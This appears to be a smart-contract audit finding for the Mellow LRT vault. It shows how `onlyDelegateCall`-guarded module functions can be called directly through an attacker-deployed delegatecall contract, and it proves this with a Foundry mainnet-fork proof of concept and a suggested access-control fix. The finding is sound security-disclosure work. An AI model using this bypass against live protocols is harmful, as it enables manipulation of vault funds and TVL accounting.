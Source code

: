 Genuine Cloud Sardine

High

# The checks of `delegateCall` can be bypassed

## Summary
The checks of `delegateCall` can be bypassed
## Vulnerability Detail
`delegateCall` in `Vault.sol` is used to execute a delegate call to a specified address with given data and perform some security checks about from/to address and data. `onlyDelegateCall` modifier ensures that certain functions are only callable through delegate calls to prevent direct interaction that might bypass security checks.
However, such desigh can be bypassed. Here's how to do it:
1. Attacker deploys a contract. The function in this contract can call functions with `onlyDelegateCall` modifier in protocol by `delegateCall`.
2. Attacker calls this function.
3. Functions with `onlyDelegateCall` modifier in protocol are directly called.

The following POC confirms this.
## POC
Paste it into the test/mainnet folder.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {DefaultBondModule} from "../../src/modules/symbiotic/DefaultBondModule.sol";
import {Test} from "forge-std/Test.sol";

contract Delegate {
    function delegateDeposit(address to, address bond, uint256 amount) external {
        bytes memory callData = abi.encodeWithSignature("deposit(address,uint256)", bond, amount);
        (bool success,) = to.delegatecall(callData);
        if (!success) revert("Delegate call failed");
    }
}

contract TestDaultModuleModifier is Test {
    error Forbidden();

    DefaultBondModule bondModule;
    Delegate delegate;

    address DCwstETH = 0xC329400492c6ff2438472D4651Ad17389fCb843a;
    address wstETH = 0x7f39C581F595B53c5cb19bD0b3f8dA6c935E2Ca0;
    address whale = 0x5313b39bf226ced2332C81eB97BB28c6fD50d1a3;
    uint256 amount = 1 ether;

    function setUp() public {
        string memory rpc = vm.envString("MAINNET_RPC");
        uint256 fork = vm.createFork(rpc, 20068147);
        vm.selectFork(fork);
        bondModule = new DefaultBondModule();
        delegate = new Delegate();
        vm.label(address(bondModule), "bondModule");
        vm.label(address(delegate), "delegate");
        vm.label(whale, "whale");
    }

    function test_bondModule_delegatecall() public {
        // call directly
        vm.expectRevert(Forbidden.selector);
        bondModule.deposit(DCwstETH, 1 ether);
        // call by delegate contract
        vm.prank(whale);
        IERC20(wstETH).transfer(address(delegate), amount);
        delegate.delegateDeposit(address(bondModule), DCwstETH, amount);
        assertEq(IERC20(DCwstETH).balanceOf(address(delegate)), amount);
    }
}
```
## Impact
1. The security checks in `delegateCall` are bypassed.
2. The TVL can be easily manipulated. For example, calling `withdraw` function directly in `DefaultBondModule.sol` will decrease the `amount` and `underlyingAmount` in `DefaultBondTvlModule.Data`.
```solidity
            data[i].amount = IERC20(bonds[i]).balanceOf(vault);
            data[i].underlyingAmount = data[i].amount;
```
## Code Snippet
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/Vault.sol#L267-L282
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/modules/symbiotic/DefaultBondModule.sol#L11-L14
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/modules/symbiotic/DefaultBondModule.sol#L27-L30
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/modules/obol/StakingModule.sol#L43
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/modules/obol/StakingModule.sol#L48-L56
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/modules/erc20/ERC20SwapModule.sol#L11-L15
## Tool used
manual and foundry
## Recommendation
Add access controls like this:
```solidity
           if (msg.sender != address(vault)) _requireAtLeastOperator();
```